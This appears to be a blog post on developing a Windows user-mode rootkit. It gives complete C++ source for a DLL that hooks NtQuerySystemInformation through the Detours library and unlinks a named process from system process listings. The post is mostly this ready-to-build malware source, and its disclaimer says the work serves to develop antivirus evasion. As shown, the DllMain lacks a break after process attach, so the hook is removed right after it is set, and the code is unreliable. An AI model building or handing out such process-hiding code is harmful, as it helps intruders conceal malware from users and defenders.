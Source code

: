 ```yaml
---
title: PoC Ring3 RootKit Development
published: 2025-10-25
description: PoC Ring3 (User Mode) RootKit Development
tags: [research, malware, rootkit, c++]
category: Malware Research
draft: false
lang: en
---
```


# PoC Ring3 (User Mode) RootKit Development

## GitHub Repo
::github{repo="therustymate/0x9C"}

## Disclaimer

This document and all associated materials are provided strictly for **legitimate security research, education, and authorized antivirus detection capability testing purposes only.**
The techniques and concepts described herein involve advanced software security, malware analysis, and development methods, and **any unauthorized use, reproduction, distribution, or malicious deployment against systems without explicit permission is strictly prohibited.**

By accessing and utilizing this material, you acknowledge and agree to comply with all applicable laws and regulations,
and to obtain proper authorization before conducting any security testing or research activities.

The author and affiliated parties **expressly disclaim all legal liability and responsibility for any misuse, unauthorized actions, or damages arising from the use of this information.**

Furthermore, this research was conducted to study current antivirus detection limitations, develop evasion techniques for educational purposes, and enhance cybersecurity expertise.
The disclosure of this technology is purely for advancing the security industry and academic research.

Therefore, all risks, legal responsibilities, and consequences resulting from the use or misuse of this document rest solely with the user.
The author and related parties are fully indemnified from any direct or indirect damages.

By reading or using this document, you are deemed to have accepted all the above conditions.

## How does user mode rootkit work?
A user-mode rootkit typically works by injecting a DLL (Dynamic Link Library) into the target process, hooking the APIs that the process calls, and removing specific information from the actual return values.
Rootkits mainly hide information about processes, network activity, files, the registry, etc., to avoid detection.

## How to hide process information?
The `NtQuerySystemInformation` API is a Windows native API that returns information about the processes present on the system.

```cpp
__kernel_entry NTSTATUS NtQuerySystemInformation(
  [in]            SYSTEM_INFORMATION_CLASS SystemInformationClass,
  [in, out]       PVOID                    SystemInformation,
  [in]            ULONG                    SystemInformationLength,
  [out, optional] PULONG                   ReturnLength
);
```

```cpp
NTSTATUS NTAPI Hooked_NtQuerySystemInformation(
    ULONG SystemInformationClass,
    PVOID SystemInformation,
    ULONG SystemInformationLength,
    PULONG ReturnLength
);
```

`SystemInformation` (of type PVOID) returns information about processes.
You can cast it to the existing `PSYSTEM_PROCESS_INFORMATION` type and, from each process entry, read the process name via `ImageName.Buffer` (a `PWCHAR` inside a `UNICODE_STRING`).
Using that, you can filter out specific process names from the process list and return the filtered result.
So when a DLL-injected process calls `NtQuerySystemInformation`, it will not see those filtered process names.

## How to hook a function?
The `Detours` library is a Windows library that enables hooking specific functions. Using it, you can hook native APIs and modify their results or record (log) them.

```bash
vcpkg install detours
vcpkg integrate install
```

Using the `vcpkg` tool, you can automatically include C++ header files and library files in `Visual Studio 2022`. In the case of `Detours`, the header file is located at `detours/detours.h`.

```cpp
#include <detours/detours.h>
```

## How to make a user mode rootkit?
The completed DLL source code is as follows:

```cpp
#include "pch.h"
#include <detours/detours.h>
#include <Windows.h>
#include <winternl.h>
#include <Psapi.h>

#pragma comment(lib, "detours.lib")

using namespace std;

const wchar_t* TARGET_PROCESS = L"Notepad.exe";

typedef NTSTATUS(NTAPI* NtQuerySystemInformation_t)(
    ULONG SystemInformationClass,
    PVOID SystemInformation,
    ULONG SystemInformationLength,
    PULONG ReturnLength
);
static NtQuerySystemInformation_t _NtQuerySystemInformation = (NtQuerySystemInformation_t)GetProcAddress(
    GetModuleHandle(L"ntdll.dll"),
    "NtQuerySystemInformation"
);

NTSTATUS NTAPI Hooked_NtQuerySystemInformation(
    ULONG SystemInformationClass,
    PVOID SystemInformation,
    ULONG SystemInformationLength,
    PULONG ReturnLength
) {
    NTSTATUS result = _NtQuerySystemInformation(
        SystemInformationClass,
        SystemInformation,
        SystemInformationLength,
        ReturnLength
    );

    if (SystemInformationClass == 5 && result == 0 && SystemInformation != nullptr) {
        PSYSTEM_PROCESS_INFORMATION processInfo = (PSYSTEM_PROCESS_INFORMATION)SystemInformation;
        PSYSTEM_PROCESS_INFORMATION prevInfo = nullptr;
        while (processInfo->NextEntryOffset || processInfo->UniqueProcessId) {
            bool hidden = false;
            if (processInfo->ImageName.Buffer != nullptr &&
                _wcsicmp(processInfo->ImageName.Buffer, TARGET_PROCESS) == 0) {
                hidden = true;
            }

            if (hidden && prevInfo != nullptr) {
                if (processInfo->NextEntryOffset == 0) {
                    prevInfo->NextEntryOffset = 0;
                }
                else {
                    prevInfo->NextEntryOffset += processInfo->NextEntryOffset;
                }
            }
            else {
                prevInfo = processInfo;
            }

            if (processInfo->NextEntryOffset == 0) break;
            processInfo = (PSYSTEM_PROCESS_INFORMATION)((PUCHAR)processInfo + processInfo->NextEntryOffset);
        }
    }

    return result;
}

BOOL APIENTRY DllMain( HMODULE hModule,
                       DWORD  ul_reason_for_call,
                       LPVOID lpReserved
                     )
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
        DetourTransactionBegin();
        DetourUpdateThread(GetCurrentThread());
        DetourAttach(&(PVOID&)_NtQuerySystemInformation, Hooked_NtQuerySystemInformation);
        DetourTransactionCommit();
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        DetourTransactionBegin();
        DetourUpdateThread(GetCurrentThread());
        DetourDetach(&(PVOID&)_NtQuerySystemInformation, Hooked_NtQuerySystemInformation);
        DetourTransactionCommit();
    }
    return TRUE;
}
```

The code iterates through the process information using `NextEntryOffset` when handling the hooked function. It compares `ImageName.Buffer` with the target process name, and if they match, it manipulates `NextEntryOffset` to remove the entry from the list so it links directly to the next process.

## Conclusion
In conclusion, the user-mode rootkit is injected into the target process as a DLL. After injection it hooks `NtQuerySystemInformation`, examines `ImageName.Buffer` in the `PSYSTEM_PROCESS_INFORMATION` structure, and if it matches a process that should be hidden, it modifies `NextEntryOffset` to remove that process from the list and link directly to the next entry to prevent the process from being seen.
